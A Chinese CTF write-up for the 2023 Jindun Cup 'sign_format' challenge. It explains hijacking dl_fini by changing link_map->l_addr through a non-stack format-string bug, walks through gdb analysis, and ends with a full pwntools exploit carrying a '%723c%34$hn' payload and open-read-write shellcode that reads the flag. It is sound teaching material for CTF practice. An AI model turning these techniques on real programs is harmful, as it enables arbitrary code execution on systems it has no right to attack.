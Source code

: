 ```yaml
---
title: 格式化字符串漏洞之劫持dl.fini
author: seyedog
date: 2023-12-18 20:40:00 +0800
categories: [Blogging, fmt]
tags: [pwn]
---
```



### 1. .fini_array劫持

以2023金盾杯的题为例
#### 1.1 2023金盾杯 sign_format

题目介绍：一道非栈上的格式化字符串，通过修改dl_fini数组里的偏移值，使函数在退出时执行我们写在bss段上的shellcode。


题目保护分析：没开PIE，其他防护都开了。其次开启了沙箱，需要ORW

题目主要流程：
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  sub_40135D();
  puts("Welcome here!");
  puts("It's a simple sign-in question.");
  puts("Let's start!");
  close(1);
  read(0, format, 0x100uLL);
  printf(format);
  return 0LL;
}
```

有一个很长的输入，之后是格式化字符串漏洞，但是关闭了标准输出流。

其中format保存在bss段上，所以不能修改返回地址了。
格式化字符串%n解析的是地址，当格式化字符串不写在栈上，我们无法通过访问写在栈上的地址来实现任意地址写。而且不能控制返回地址了。

考虑使用.fini_array劫持

#### 1.2 劫持.fini_array

实现功能：在执行exit函数的时候，执行任意地址上的程序

利用条件：需要修改一个在ld.so段上的值。
猜测这个值会在进行动态链接的时候过程中残留在栈上（存疑）

##### 1.2.1 原理分析

下面是程序执行流程图：

![函数执行流程](格式化字符串.md#函数执行流程)

根据上图流程，如果我们控制`exit`函数的finiarray，可以实现任意代码执行：

##### 1.2.2 dl_fini函数

![](pictureI/星盟周报1.png)

`exit`函数执行的时候会调用`dl_fini`函数。

本来l->l_addr为0，而l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr指针指向程序中的fini_array段的地址，也就是l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr的值为0x0000000000403D98

![](pictureI/星盟周报2.png)

如果我们能控制**linkmap->l_addr**指针，就可以将程序偏移到我们写的位置，执行shellcode。
需要注意这里存的是一个程序地址：0x401200，所以我们伪造`l_addr`的时候将偏移后的值改为shellcode的地址。

那么如何通过格式化字符串控制`l_addr`呢？这个就需要用到在栈上留存的一个`ld.so`上的指针了

#### 1.3 gdb动态分析利用过程

首先，在main函数执行完毕之后会跳转到exit函数执行：

![](pictureI/星盟周报7.png)

然后我们步进到exit函数中：

![](pictureI/星盟周报6.png)

可见exit函数会调用一个叫`__run_exit_handlers`的函数
继续步进，直到这个函数调用了`__dl_fini`函数，然后dl_fini函数会执行call rax地址：
![](pictureI/星盟周报5.png)

具体查看rax地址是0x40406b，指向0x404073，其实这里已经是被我们修改了。原本rax应该是0x0403D98 -> 0x401200，原本是要去执行这个代码的：
![](pictureI/星盟周报8.png)

dl_fini函数：
![](pictureI/星盟周报1.png)

当我们修改了l_addr之后，array\[i]就可以被控制了。

而我们只需要计算0x40406B - 0x403D98 = 723，就知道我们应该把`l_addr`改成多少了。那么我们怎么改这个值呢？

#### 1.4 修改ElfW中l->l_addr劫持fini_array执行

前面我们说过了，在栈上有一个ld.so的地址残留，猜测是在动态链接的过程中残留在栈上的，对应这道题：

![](pictureI/星盟周报9.png)
就是那个末尾是0x2e0的粉色的地址。里面存的值0x2d3就是723，这里是执行完格式化字符串漏洞，已经被我们修改过了。原本里面存的应该是0，对应的就是`l->l_addr = 0`

具体在dl_fini函数中：
![](pictureI/星盟周报3.png)

执行 `add rax,qword ptr [r15]` ，这个r15此时保存的就是栈上ld.so保存的那个数据，那么只要利用格式化字符串漏洞修改这个ld.so地址中存的值，就可以控制让rax中保存的值从0x401200+0x0 改为访问我们希望执行的shellcode的地址。
这里就是对应`l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`，从而让fini_array被劫持。
而具体改为什么数字，我们前面已经计算过了：0x40406B - 0x403D98 = 723
接下来只需要找到ld.so这个地址的格式化字符串偏移，然后将他里面存放的数据从0修改为723即可。

###### 这里插一嘴
在执行dl_fini的过程中有几步rax的值是0x403e00：

![](pictureI/星盟周报10.png)

这个其实是`.dynamic`节的地址，保存的是用于动态链接函数的信息表地址，或者其他什么地址。这个需要看具体值：
![](pictureI/星盟安全4.png)

###### 结构体如下：
```c
typedef struct{
	ELF64_Sxword d_tag;
	union{
		ELF64_Xword d_val;
		ELF64_Addr d_ptr;
	}d_un;
}ELF64_Dyn;
```

这个结构体根据第一个值`d_tag`的具体取值选择对应第二个值是用来做什么的。
这里应该是用来找dl_fini的偏移。
这个学过ret2dlresolve的师傅应该很熟悉
###### 言归正传

#### 1.4 exp

```python
from ctypes import *
from pwn import *
banary = "/home/giantbranch/PWN/question/City/jindun/2023/pwn1"
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(banary)
# libc = ELF("/home/giantbranch/PWN/libc/libc.so.6")
# libc=ELF("/home/giantbranch/PWN/libc/libc6_2.27-3ubuntu1.5_amd64.so")
ip = '123.56.237.147'
port = 47726
local = 1
if local:
    io = process(banary)
else:
    io = remote(ip, port)

context(log_level = 'debug', os = 'linux', arch = 'amd64')
#context(log_level = 'debug', os = 'linux', arch = 'i386')

def dbg():
    gdb.attach(io)
    pause()

s = lambda data : io.send(data)
sl = lambda data : io.sendline(data)
sa = lambda text, data : io.sendafter(text, data)
sla = lambda text, data : io.sendlineafter(text, data)
r = lambda : io.recv()
ru = lambda text : io.recvuntil(text)
uu32 = lambda : u32(io.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
iuu32 = lambda : int(io.recv(10),16)
iuu64 = lambda : int(io.recv(6),16)
uheap = lambda : u64(io.recv(6).ljust(8,b'\x00'))
lg = lambda addr : log.info(addr)
ia = lambda : io.interactive()

main_read = 0x0040144A

bss = 0x0404060

fini_array = 0x403d90   #0x403d98 - 0x403da0  .fini_array
    # array[0]->__do_global_dtors_aux
    # array[1]->fini

# payload = b"%"+b"240c%21$hhn"
# payload = b"%"+b"584c%34$hn"
#0x403fe0
# payload = b"%"+b"723c%34$hn"
payload = b"%"+b"723c%34$hn"

payload2= """
   push   0x67616c66
   push   0x2
   pop    rax
   mov    rdi,rsp
   xor    rsi,rsi
   syscall
   mov    rdi,rax
   xor    rax,rax
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
   push   0x1
   pop    rax
   push   0x2
   pop    rdi
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
"""
print(len(payload))
payload = payload + p64(0x40406b+8)+ asm(payload2)
print(len(payload))
dbg()
sl(payload)

ia()
    
```



